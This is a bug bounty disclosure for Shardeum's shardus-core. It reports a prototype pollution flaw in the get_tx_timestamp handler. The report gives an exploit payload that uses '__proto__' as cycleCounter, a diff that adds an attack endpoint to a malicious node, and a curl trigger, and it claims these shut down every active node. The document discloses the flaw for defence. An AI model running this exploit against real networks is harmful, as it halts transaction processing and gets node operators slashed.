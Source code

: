
# Prototype pollution vulnerability in `get_tx_timestamp` handler can stop active node

Submitted on Wed Aug 14 2024 01:04:48 GMT-0400 (Atlantic Standard Time) by @periniondon630 for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #34500

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Brief/Intro
A prototype pollution vulnerability has been discovered in the get_tx_timestamp handler of the state-manager module. This vulnerability allows an attacker to manipulate the Object prototype, potentially leading to active node shutdown, slashing of the active node for early leave. If exploited in production/mainnet, this flaw could cause significant disruption and compromise the security of the system.

## Vulnerability Details
The vulnerability exists in the following code snippet:
```javascript
generateTimestampReceipt(
    txId: string,
    cycleMarker: string,
    cycleCounter: CycleRecord['counter']
  ): TimestampReceipt {
    const tsReceipt: TimestampReceipt = {
      txId,
      cycleMarker,
      cycleCounter,
      // shardusGetTime() was replaced with shardusGetTime() so we can have a more reliable timestamp consensus
      timestamp: shardusGetTime(),
    }
    const signedTsReceipt = this.crypto.sign(tsReceipt)
    /* prettier-ignore */ this.mainLogger.debug(`Timestamp receipt generated for txId ${txId}: ${utils.stringifyReduce(signedTsReceipt)}`)

    // caching ts receipt for later nodes
    if (!this.txTimestampCache[signedTsReceipt.cycleCounter]) {
      this.txTimestampCache[signedTsReceipt.cycleCounter] = {}
    }

    // cache to txId map
    this.txTimestampCache[signedTsReceipt.cycleCounter][txId] = signedTsReceipt
    if (Context.config.p2p.timestampCacheFix) {
      // eslint-disable-next-line security/detect-object-injection
      this.txTimestampCacheByTxId[txId] = signedTsReceipt
      this.seenTimestampRequests[txId] = true
    }
    /* prettier-ignore */ this.mainLogger.debug(`Timestamp receipt cached for txId ${txId} in cycle ${signedTsReceipt.cycleCounter}: ${utils.stringifyReduce(signedTsReceipt)}`)
    return signedTsReceipt
  }
```
Function is called from get_tx_timestamp handler, all parameters are coming from user controlled input and can be crafted to include special properties such as `__proto__`, allowing an attacker to manipulate the Object prototype. Here is get_tx_timestamp code:

```javascript
this.p2p.registerInternal(
      'get_tx_timestamp',
      async (
        payload: { txId: string; cycleCounter: number; cycleMarker: string },
        respond: (arg0: Shardus.TimestampReceipt) => unknown
      ) => {
        const { txId, cycleCounter, cycleMarker } = payload
        /* eslint-disable security/detect-object-injection */
        if (this.txTimestampCache[cycleCounter] && this.txTimestampCache[cycleCounter][txId]) {
          await respond(this.txTimestampCache[cycleCounter][txId])
        } else {
          const tsReceipt: Shardus.TimestampReceipt = this.generateTimestampReceipt(
            txId,
            cycleMarker,
            cycleCounter
          )
          await respond(tsReceipt)
        }
        /* eslint-enable security/detect-object-injection */
      }
    )
```

The values for parameters should be chosen in a way first condition will go to else case. The following exploit demonstrates this vulnerability:

```javascript
Context.network.registerExternalGet('run-attack', async (req, res) => {
  const payload = { txId: 'debug', receipt2: 'lorem', cycleCounter: '__proto__' }
  for (const node of activeByIdOrder) {
    await this.p2p.tell([node], 'get_tx_timestamp', payload)
  }
})
```

## Impact Details
The potential impacts of this vulnerability are severe and include:

- complete network shutdown, which demonstrates by exploit
- slashing active node by early leave penalty.

## References
- [OWASP: Prototype Pollution](https://owasp.org/www-community/attacks/Prototype_Pollution)
- [CWE-1321: Improperly Controlled Modification of Object Prototype Attributes ('Prototype Pollution')](https://cwe.mitre.org/data/definitions/1321.html)

        
## Proof of concept
## Proof of Concept
- Set up and launch a test Shardeum network.
- Apply the following patch to the shardus-core repository to introduce a malicious node:
```javascript
diff --git a/src/state-manager/index.ts b/src/state-manager/index.ts
index f22738cf..a189e16e 100644
--- a/src/state-manager/index.ts
+++ b/src/state-manager/index.ts
@@ -2169,6 +2169,13 @@ class StateManager {
       binaryGetAccountQueueCountHandler.handler
     )

+    Context.network.registerExternalGet('run-attack', async (req, res) => {
+        const payload = { txId: 'debug', receipt2: 'lorem', cycleCounter: '__proto__' }
+        for (const node of activeByIdOrder) {
+            await this.p2p.tell([node], 'get_tx_timestamp', payload)
+        }
+    })
+
     Context.network.registerExternalGet('debug_stats', isDebugModeMiddleware, (_req, res) => {
       const cycle = this.currentCycleShardData.cycleNumber - 1

```
- Build and run your malicious node; it will be capable of attacking and shutting down the network.
- Wait until malicious node will become active.
- Initiate the attack from the malicious node using the following curl command:
```
curl 'http://<MALICIOUS_NODE_IP>:<EXTERNAL_PORT>/run-attack'
```
- The exploit code will iterate through all active nodes in the network and shut them down.
- Wait until all nodes appear red on the monitor webpage, indicating they are offline.
- Check the logs (e.g., fatal logs) to confirm that nothing can be processed.